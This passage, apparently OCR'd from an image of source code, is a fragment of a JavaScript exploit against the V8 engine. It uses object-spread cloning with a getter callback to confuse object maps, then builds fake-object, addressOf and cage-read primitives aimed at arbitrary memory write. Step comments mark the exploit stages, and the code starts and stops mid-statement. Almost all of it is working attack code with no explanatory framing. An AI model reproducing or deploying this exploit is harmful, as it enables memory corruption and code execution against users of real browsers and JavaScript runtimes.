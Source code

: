 ```
72:472, pppp473:473, pppp474:474, pppp475:475, pppp476:476, pppp477:477, pppp478:478, pppp479:479, pppp480:480, pppp481:481, pppp482:arb_write_addr/2, pppp483:483, pppp484:484, pppp485:485, pppp486:486, pppp487:487, pppp488:488, pppp489:489, pppp490:490, pppp491:491, pppp492:492, pppp493:493, pppp494:494, pppp495:495, pppp496:496, pppp497:497, pppp498:498, pppp499:499, pppp500:500, pppp501:501, get pppp502(){ return callback();}};
 
const nums = 502
let source2 = {};
for (let i = 0; i < nums+1; i++) {
        eval(`source2.${prefix}${i} = ${i}`);
}
 
let source3 = {
        pppp0: 1,
        pppp1: 1,
        pppp2: 1,
        pppp3: 1.1,   // ===> construct deprecated_map 【1】
        get pppp4() { // ===> fill transition tree 【2】
                return 1;
        }
};
 
function cloneic_mega(src) {
        var obj = { ...src, __proto__: null };
        return obj;
}
 
function callback() {
//        print("[+] In callback");
        // construct dict map 【3】
        // pppp0 -> pppp1 -> pppp2 -> pppp3 -> pppp4
        //                                      -> pppp__0
        //                                      -> pppp__1
        //                                      -> pppp__2
        //                                      ......
        //                                      -> pppp_1535
        const max = 1024 + 512;
        for (let i = 0; i < max; i++) {
                let tmp = cloneic_mega(source3);
                eval(`tmp.${prefix}__${i} = ${i}`);
        }
//        print("[+] Over callback");
//        readline();
        return arb_write_value;
}
 
print("[+] GO");
cloneic_mega(source2);
cloneic_mega(source1);
 
//%DebugPrint(big_object_array[1]);
//readline();
 
var evil_array = big_object_array[1];
function addressOf(obj) {
        big_double_array[(fake_obj_addr-const_double_data_addr)/8 + 1] = pair_u32_to_f64(const_object_data_addr+0x10-8+1, 0x4);
        big_object_array[4] = obj;
        f64_to_u64(evil_array[0]);
        return u32[0];
}
 
function read_cage(addr) {
```